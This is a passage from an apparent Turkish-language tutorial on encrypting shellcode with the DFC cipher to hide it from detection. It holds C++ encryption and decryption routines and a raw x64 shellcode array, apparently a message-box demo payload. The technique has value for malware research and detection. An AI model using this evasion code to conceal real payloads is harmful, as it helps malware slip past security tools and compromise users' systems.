 ```cpp
    unsigned char pad[BLOCK_SIZE] = { 0x90 };
    memcpy(pad, ptr, remaining);
    dfc_encrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}
```

Bu fonksiyon, `key_schedule` çağrısı yaparak tur anahtarlarını başlatır. Ardından, ana shellcode'u `128-bit`lik bloklar halinde şifreler. Eğer shellcode'un uzunluğu blok boyutunun katı değilse, padding uygular.      

Sıradaki adım, şifre çözme mantığıdır:    

```cpp
// DFC kullanarak shellcode'u çözme fonksiyonu
void dfc_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // alt anahtarları oluştur
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    dfc_decrypt(ptr, key);
    ptr += 4;
  }
  // kalan baytları padding ile işleme al
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = { 0x90 };
    memcpy(pad, ptr, remaining);
    dfc_decrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}
```

Son olarak, tümünü `main` fonksiyonunda birleştirme:

```cpp
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
```